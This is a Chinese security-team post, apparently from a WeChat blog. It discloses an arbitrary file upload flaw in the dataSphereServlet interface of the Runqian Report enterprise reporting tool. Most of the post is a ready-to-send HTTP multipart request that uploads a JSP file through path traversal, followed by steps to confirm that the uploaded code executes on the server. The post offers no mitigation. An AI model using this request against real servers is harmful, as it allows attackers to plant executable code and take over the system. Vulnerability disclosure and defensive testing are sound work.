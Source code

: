 #  润乾报表dataSphereServlet接口存在任意文件上传漏洞   
原创 R0seK1ller  蟹堡安全团队   2024-08-04 20:27  
  
# 1. 漏洞描述  
  
  
    润乾报表是一个纯JAVA的企业级报表工具，支持对J2EE系统的嵌入式部署，无缝集成。服务器端支持各种常见的操作系统，支持各种常见的关系数据库和各类J2 EE的应用服务器，客户端采用标准纯html方式展现，支持ie和netscape， 润乾报表是领先的企业级报表分析软件。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqk29AkQPbtib10CGiaUek83SkSAPVIfMFoibnqJSy0VVfehveEet6Kdm96g/640?wx_fmt=png&from=appmsg "")  
## 2. 漏洞复现  
```
POST /servlet/dataSphereServlet?action=38 HTTP/1.1
Host: 
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 395
Content-Type: multipart/form-data; boundary=eac629ee4641cb0fe10596fba5e0c5d9

--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="openGrpxFile"; filename="539634.jsp"
Content-Type: text/plain

<% out.println("873227518"); %>
--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="path"

../../../
--eac629ee4641cb0fe10596fba5e0c5d9
Content-Disposition: form-data; name="saveServer"

1
--eac629ee4641cb0fe10596fba5e0c5d9--
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqk9TIqeIMfwSw0Ql4PYojUsaY30oneMpLvkG17X77RzPQ4zb4iblicXuuQ/640?wx_fmt=png&from=appmsg "")  
  
	  
    拼接路径，尝试访问上传文件"539634.jsp"，查看文件是否上传成功，文件是否能够解析。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/yva8EEPh2zWrFTFHpA6V6uC9KEmlEAqknt1DdENPYCbGxtwqNJaUysE4ZtWslTwynSwmMgVdSDdXjvghm1n2Jg/640?wx_fmt=png&from=appmsg "")  
  
  
可以看到文件成功解析，打印出873227518。  
  
